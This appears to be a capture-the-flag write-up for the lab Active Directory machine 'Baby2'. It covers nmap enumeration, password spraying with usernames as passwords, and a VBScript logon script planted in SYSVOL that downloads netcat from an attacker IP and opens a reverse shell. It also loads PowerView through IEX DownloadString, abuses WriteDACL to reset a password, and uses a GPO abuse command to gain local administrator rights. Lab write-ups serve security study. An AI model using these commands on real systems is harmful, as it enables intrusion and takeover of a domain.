





# Enumeration
Using nmap:
```
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-30 15:25:23Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby2.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.baby2.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.baby2.vl
| Not valid before: 2023-08-22T17:39:15
|_Not valid after:  2024-08-21T17:39:15
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: baby2.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.baby2.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.baby2.vl
| Not valid before: 2023-08-22T17:39:15
|_Not valid after:  2024-08-21T17:39:15
|_ssl-date: TLS randomness does not represent time
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby2.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.baby2.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.baby2.vl
| Not valid before: 2023-08-22T17:39:15
|_Not valid after:  2024-08-21T17:39:15
|_ssl-date: TLS randomness does not represent time
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: baby2.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.baby2.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.baby2.vl
| Not valid before: 2023-08-22T17:39:15
|_Not valid after:  2024-08-21T17:39:15
|_ssl-date: TLS randomness does not represent time
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-03-30T15:26:44+00:00; +51m55s from scanner time.
| ssl-cert: Subject: commonName=dc.baby2.vl
| Not valid before: 2024-03-29T15:14:05
|_Not valid after:  2024-09-28T15:14:05
| rdp-ntlm-info: 
|   Target_Name: BABY2
|   NetBIOS_Domain_Name: BABY2
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: baby2.vl
|   DNS_Computer_Name: dc.baby2.vl
|   DNS_Tree_Name: baby2.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-03-30T15:26:04+00:00
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
9389/tcp  open  mc-nmf     .NET Message Framing
49664/tcp open  msrpc      Microsoft Windows RPC
49667/tcp open  msrpc      Microsoft Windows RPC
49670/tcp open  msrpc      Microsoft Windows RPC
49674/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc      Microsoft Windows RPC
54443/tcp open  msrpc      Microsoft Windows RPC
54449/tcp open  msrpc      Microsoft Windows RPC
54461/tcp open  msrpc      Microsoft Windows RPC
54489/tcp open  msrpc      Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Using smb found the users:

Trying the users with their username as passwords:
`cme smb 10.10.106.93 -u user.list -p user.list --continue-on-success --no-bruteforce`
We get two logins

We discover a login script with bloodhound:

Use vbscript reverse shell with nc to plant in SYSVOL
```vbscript
Set oShell = CreateObject("Wscript.Shell")
oShell.run "cmd.exe /c curl 10.8.1.208/nc64.exe -o C:\Windows\Temp\nc64.exe"
oShell.run "cmd.exe /c C:\Windows\Temp\nc64.exe 10.8.1.208 4445 -e cmd.exe"
```
We get a shell:

Now in bloodhound we found a path
Now to abuse writedacl without the password:
Import Powerview:
`IEX (New-Object System.Net.WebClient).DownloadString('http://10.8.1.208/PowerView.ps1')`
Get rights over gpoadm:
`Add-DomainObjectAcl -TargetIdentity gpoadm -PrincipalIdentity Amelia.Griffiths -Rights All`
Change password:
`Set-DomainUserPassword -Identity gpoadm -AccountPassword $UserPassword`
Now we can use pygpoabuse.py yo modify the GPO and add gpoadm as administrator:
`python3 pygpoabuse.py baby2.vl/gpoadm:Password123! -dc-ip dc.baby2.vl -gpo-id 31B2F340-016D-11D2-945F-00C04FB984F9 -command 'net localgroup administrators /add gpoadm' -f`
